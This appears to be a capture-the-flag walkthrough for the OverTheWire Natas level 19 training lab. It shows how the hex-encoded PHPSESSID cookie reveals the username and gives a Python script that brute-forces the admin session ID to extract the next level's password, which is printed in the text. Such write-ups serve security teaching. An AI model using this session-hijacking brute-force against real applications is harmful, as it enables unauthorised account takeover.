

# 🔐 Natas19 Walkthrough

Loggin on to `natas19` we are greeted with:

***This page uses mostly the same cde as the previous level, but session IDs are no logner sequential...***

That means the `SESSID` pattern is most likely different, not just `1-640` in plain text. Let's try to put a test username and password into the form and check what `SESSID` we get in the coockie cache:

```
INPUT:
    Username: test
    Passoword: test

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache.***

```
RMB -> inspect -> data -> cookies

PHPSESSID = 33352d74657374
```

This is clearly a hex number, hence the `d`. Let's decode it using [cyber-chef](https://gchq.github.io/CyberChef/)



as you can see, the `username` is in the `PHPSESSID`, naturally we should try inputing `admin` in the username cause that will most likely be the admin's session.

```
INPUT:
    Username: admin
    Passoword: admin

OUTPUT:
    You are logged in as a regular user. Login as an admin to retrieve 
    credentials for natas20.
```

Let's check the ***cookie cache*** again.

```
RMB -> inspect -> data -> cookies

PHPSESSID = 3134392d61646d696e
```
decoding...

<div align="center">

</div>


```
2d61646d696e = -admin
```

In order to find the admin's correct session now we need to bruteforce the rest of the hex. That's again where python comes in to play.

## 🤖 Python solution

```python
import requests,re,sys

# === CONFIG === 
url = "http://natas19.natas.labs.overthewire.org"
username = "natas19"
natas19_password = "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr"
phpsesidMax = 640
phpsesidMin = 1
# =============

log_info("Starting brute-force on natas19...")

while phpsesidMin <= phpsesidMax:

    # Iterate through chronological hex characters
    stringHex = "".join("{:02x}".format(ord(c)) for c in str(phpsesidMin))
    adminHex = "2d61646d696e" # -admin

    # Inject the SESSID with chronological hex  
    sesID = "PHPSESSID=" + stringHex + adminHex
    log_progress_inline(sesID)

    headers = {'Cookie': sesID}
    response = requests.get(url,headers=headers, auth=(username,natas19_password),verify=False)

    if "You are an admin." in response.text:

        # Get the password from website output
        match = re.search(r"Password:\s*([^\s<]+)", response.text)        
        if match:
            password = match.group(1)
            log_found_inline(f"Admin session found! PHPSESSID={sesID}")
            log_success(f"Natas20 password: {password}")
            break
    phpsesidMin = phpsesidMin + 1
```

The whole script with console formatting is avaliable in the natas19 directory, this code is only a **walkthrough** version with comments so you know whats going on. The output should provide you with the password for natas20  `(:`.

